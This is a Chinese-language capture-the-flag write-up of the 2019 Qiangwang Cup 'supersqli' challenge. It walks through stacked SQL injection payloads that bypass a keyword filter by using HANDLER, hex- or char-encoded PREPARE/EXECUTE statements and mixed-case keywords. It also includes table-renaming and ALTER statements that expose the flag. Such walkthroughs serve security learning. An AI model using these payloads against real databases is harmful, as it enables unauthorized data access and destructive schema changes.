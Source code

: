 # supersqli  | 强网杯 2019 随便注



![image-20220602220016590](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220016590.png)

上来不多说直接测试，这里直接报错

```sql
1' and 1=1#
```



![image-20220602220205878](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220205878.png)

![image-20220602220247668](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220247668.png)

尝试另一种注释符号就可以正常注入了

```sql
1' and 1=1 --+
```

```sql
1' and 1=2 --+
```



![image-20220602220356089](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220356089.png)

直接order by 测试字段数，最多可三列

```sql
1' order by 3#
```



![image-20220602220540117](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220540117.png)

再尝试select查询，发现被 preg_match函数过滤了这些关键字

```
preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```







![image-20220602220956608](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602220956608.png)

多试几遍可以发现这个查询语句可以分号隔开，多语句查询的堆叠注入，那就有各种骚操作了

```sql
1';  show databases    ;#
```



![image-20220602221626553](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602221626553.png)

也可以用extractvalue爆库

```sql
1' and extractvalue(1,concat(0x7e,databse())) #
```





这里有个有意思的点， 注释的时候，如果用 # 注释，就需要把分号写上，否则会报错。然而用 --+ 则不会有这种问题

1：![image-20220602222120091](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222120091.png)

2：

![image-20220602222203218](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222203218.png)

3：![image-20220602222211612](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222211612.png)







![image-20220602222507939](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222507939.png)

接下来就是爆数据表的操作，select会被过滤，可以用show语句查询，执行成功出现两个表，因为已经做过了，所以知道是第一个表也不多浪费时间

```sql
1'; show tables from supersqli --+
```



![image-20220602222943716](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602222943716.png)

还是用show查询表的字段名，这里记得把表名用反引号括上，否则查询不出来，反引号可以让查询的字段不会变成关键字

```sql
1'; show columns from `1919810931114514` --+
```



![image-20220602223038327](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602223038327.png)

或者可以用desc查询表字段

```sql
1'; desc `1919810931114514` --+
```



最后就是各种查flag的操作了，目前已知有三种操作

一是handler查询

>   mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
>   HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。

这里只做简单介绍，详细了解可以去https://blog.csdn.net/JesseYoung/article/details/40785137



![image-20220602223926943](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220602223926943.png)

payload:

```sql
1'; handler `1919810931114514` open;handler `1919810931114514` read first  --+
```







二是预处理查询

虽然select被过滤，但是可以用set设置变量，这个变量可以编译成16进制、concat构造语句或是ascii码，当然也可以用concat直接构造语句不用设置变量

prepare 是预编译语句，会进行编码转换

最后用execute执行该语句

一个额外的知识点，select可以设置多个变量，而set只能设置一个



这里注意，set与prepare要改改成大写，或者大小写一起，否则会被strstr过滤，这个函数只过滤相应的格式，可以用大小写绕过

![image-20220603101542020](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220603101542020.png)



payload1:

```sql
1';SEt @test=0x73656c656374202a2066726f6d2020603139313938313039333131313435313460; prEpare  payload from @test;execute payload;#
```

payload2:

```sql
1';Set @test=concat('sel','ect * from `1919810931114514`');pREpare payload from @test;execute payload;#
```

payload3:

```sql
1';PrePare payload from 
concat('sel','ect * from `1919810931114514`');execute payload;#
```

payload4:

```sql
1'; Set @test=char(115, 101, 108, 101, 99, 116, 32, 42, 32, 32, 102, 114, 111, 109, 32, 96, 49, 57, 49, 57, 56, 49, 48, 57, 51, 49, 49, 49, 52, 53, 49, 52, 96);PRepare payload from @test;execute payload;#
```







三是最骚的一个操作，把有flag的表数据插到正常查询的表里去



查words这个表可以看到两个字段，猜测查询语句可能为：

```sql
select * from words where id='$id';
```

![image-20220603111006385](C:\Users\86185\AppData\Roaming\Typora\typora-user-images\image-20220603111006385.png)

那么就可以设想一下把数据插到这个表：

```sql
select * from `1919810931114514` where flag='$id';
```



接下来构造payload，将words改成其他表名，把1919810931114514这个表改成words，并添加字段

payload:

```sql
1';
rename table `words` to `another`;
rename table `1919810931114514` to `words`;
alter table `words` change `flag` 
`id` varchar(100) character set utf8 collate utf8_general_ci NOT NULL;#
```





![image-20220603113207316](image-20220603113207316.png)

最后要用万能密码查询


